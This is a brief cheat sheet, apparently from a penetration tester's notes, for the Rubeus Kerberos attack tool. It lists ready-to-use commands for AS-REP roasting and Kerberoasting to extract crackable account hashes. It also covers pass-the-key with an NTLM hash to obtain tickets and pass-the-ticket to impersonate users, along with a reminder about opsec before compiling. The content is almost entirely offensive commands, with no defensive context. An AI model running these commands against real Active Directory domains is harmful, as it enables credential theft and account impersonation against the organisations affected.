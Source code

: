 Rubeus

# Rubeus

### Source

- https://github.com/GhostPack/Rubeus

Review the opsec notes before compiling the program in visual studio. 

### ASREProasting:

chek for users in the current domain:

- Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

### Kerberoasting:

- Rubeus.exe kerberoast /outfile:<output_TGSs_file>

- Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"SID-VALUE"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] 

### Pass the key (PTK):

- .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt


### Using the ticket on a Windows target: 

- Rubeus.exe ptt /ticket:<ticket_kirbi_file>